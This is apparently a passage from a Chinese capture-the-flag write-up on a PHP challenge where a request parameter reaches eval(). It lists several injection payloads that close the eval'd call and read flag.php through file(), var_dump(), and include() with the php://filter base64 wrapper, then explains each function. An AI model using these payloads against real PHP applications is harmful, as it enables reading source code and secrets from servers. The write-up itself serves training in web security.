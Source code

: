### 4. 本地包含

右键查看源代码 
![这里写图片描述](http://img.blog.csdn.net/20170815111827512?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvU2Fua3kwdQ==/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast) 
搜了一下@\$\_REQUEST 的意思是获得参数，不论是@_GET还是@POST可以得到的参数@$REQUEST都能得到。 
所以构造hello的get参数。 
$a应该最后会像字符串替换一样替换成hello的参数值吧。

```
<1> hello=);print_r(file("flag.php")
<2> hello=);var_dump(file("flag.php")
<3> hello=file("flag.php")
<4> hello=);include(@$_POST['b']
    在POST区域：b=php://filter/convert.base64-encode/resource=flag.php
<5> hello=);include("php://filter/convert.base64-encode/resource=flag.php"123456
```

![这里写图片描述](http://img.blog.csdn.net/20170815151153104?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvU2Fua3kwdQ==/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)
之后将获得的flag.php的base64编码后的源码解码得到flag。 
![这里写图片描述](http://img.blog.csdn.net/20170815150735149?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvU2Fua3kwdQ==/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)

- eval() 函数会把字符串参数当做代码来执行。

- file() 函数把整个文件读入一个数组中，并将文件作为一个数组返回。

- print_r() 函数只用于输出数组。

- var_dump() 函数可以输出任何内容：输出变量的容，类型或字符串的内容，类型，长度。

- hello=file(“flag.php”)，最终会得到var_dump(file(“flag.php”))，以数组形式输出文件内容。

- include()函数和php://input，php://filter结合很好用，php://filter可以用与读取文件源代码，结果是源代码base64编码后的结果。

  ​

  > php://filter/convert.base64-encode/resource=文件路径（如index.php）